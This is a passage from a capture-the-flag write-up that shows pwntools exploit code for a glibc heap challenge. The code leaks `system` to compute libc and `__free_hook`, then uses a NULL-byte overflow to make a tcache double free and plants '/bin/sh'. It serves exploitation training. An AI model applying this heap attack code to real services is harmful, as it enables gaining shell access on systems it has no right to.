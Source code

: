 ```python
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])
```

Now, we do the following steps in order, using our knowledge of how the new mitigation works.

First, we answer the initial question with a 'y'. We then use the leaked address of `system` to calculate the libc base address and subsequently the address of `__free_hook`:
```python
initialize('y')

# Calculate everything
p.recvuntil(': ')
system = int(p.recvuntil('\n').strip('\n'), 16)
libc.address = system - libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))
```

Next we need to add two chunks. The first chunk's size doesn't matter, I arbitrarily choose 0x58 (chunk 0). The second chunk though has to be a size >= 0x100. I arbitrarily chose 0x180 (chunk 1).

We will free chunk 0, then chunk 1. Chunk 0 will go into the 0x50 tcache bin, while chunk 1 will go into the 0x180 tcache bin. I then get back chunk 0, and use the single NULL byte overflow to overwrite chunk 1's size from 0x191 to 0x100. I also set the first 8 bytes of chunk 0 to `'/bin/sh\x00'` for later use.

Since chunk 1's size changed from 0x191 to 0x100, we can immediately free it again. This time, it will go into the 0xf0 tcache bin.
```python
# Add a 0x50 and 0x180 chunk
add(0x58, 'A'*0x58) # Chunk A
add(0x180, 'B'*0x180) # Chunk B

# Free them both
free(0) # Goes into 0x50 tcache bin
free(1) # Goes into 0x180 tcache bin

# Get back the 0x50 chunk, but also null byte overflow into the 0x180 chunk
# Also put in /bin/sh\x00 into it for later use
add(0x58, '/bin/sh\x00' + 'A'*0x50) # Chunk A

# The 0x180 chunk's size is now actually 0x100 (due to null byte overflow)
# This means we can free it again immediately
free(1) # Goes into 0xf0 tcache bin
```
